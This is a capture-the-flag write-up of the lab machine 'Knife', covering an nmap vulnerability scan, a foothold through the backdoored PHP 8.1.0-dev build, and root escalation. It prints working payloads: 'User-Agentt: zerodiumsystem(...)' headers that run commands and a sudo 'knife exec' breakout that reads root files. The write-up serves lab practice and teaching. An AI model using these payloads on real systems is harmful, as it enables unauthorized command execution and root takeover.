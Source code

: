 # Knife


## Nmap

After removing irrelevant OSes (Redhat, Huawei, FreeBSD, OpenBSD, Gentoo)
and older exploits:

```bash
nmap -sV -A -p 80,22 --script vuln 10.10.10.242
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|     	CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
|     	CVE-2020-12062	5.0	https://vulners.com/cve/CVE-2020-12062
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	*EXPLOIT*
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| vulners:
|   cpe:/a:apache:http_server:2.4.41:
|     	MSF:ILITIES/UBUNTU-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/	*EXPLOIT*
|     	CVE-2020-11984	7.5	https://vulners.com/cve/CVE-2020-11984
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	*EXPLOIT*
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	*EXPLOIT*
|_    	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993

```

## CVE?

Very little is running on the server:

- the webpage is static
- there's no common directory exposed
- only 2 services open

So, one technology among the following must have a known exploit:

- Ubuntu
- PHP 8.1.0-dev
- openssh 8.2p1
- Apache httpd 2.4.41

After another round of quick sifting we're left with:

- openssh:
  - CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
- httpd:
  - CVE-2020-11984	7.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/

And after even more googling, the actual vector is a pure backdoor in PHP!

In retrospect, the most eye-catching information was the PHP version: 8.1.0-dev.
Dev builds are rarely found in production, and in every challenge the package
with a specific, outdated, version is there for a reason!

> always always

## Foothold

The back evaluates any string in the HTTP headers following `zerodium`:

```
User-Agentt: zerodiumsystem("id");
```

```
uid=1000(james) gid=1000(james) groups=1000(james)
```

## Escalation

The current user can run `/usr/bin/knife` with root privileges.

```ruby
unless defined?(Bundler) && Bundler.instance_variable_defined?("@load")
  ENV["GEM_HOME"] = ENV["GEM_PATH"] = nil unless ENV["APPBUNDLER_ALLOW_RVM"] == "true"
  ::Gem.clear_paths
  spec = Gem::Specification.find_by_name("chef", "= 16.10.8")
else
  spec = Gem::Specification.find_by_name("chef")
end

unless Gem::Specification.unresolved_deps.empty?
  $stderr.puts "APPBUNDLER WARNING: unresolved deps are CRITICAL performance bug, this MUST be fixed"
  Gem::Specification.reset
end

bin_file = spec.bin_file("knife")

Kernel.load(bin_file)
```

IE this lets us use the chef's knife, with:

```
User-Agentt: zerodiumsystem("sudo /usr/bin/knife");
```

Then breakout with the knife and execute a system call:

```
User-Agentt: zerodiumsystem("sudo /usr/bin/knife exec -E 'exec \"id\"'");

User-Agentt: zerodiumsystem("sudo /usr/bin/knife exec -E 'exec \"cat /root/root.txt\"'");
```
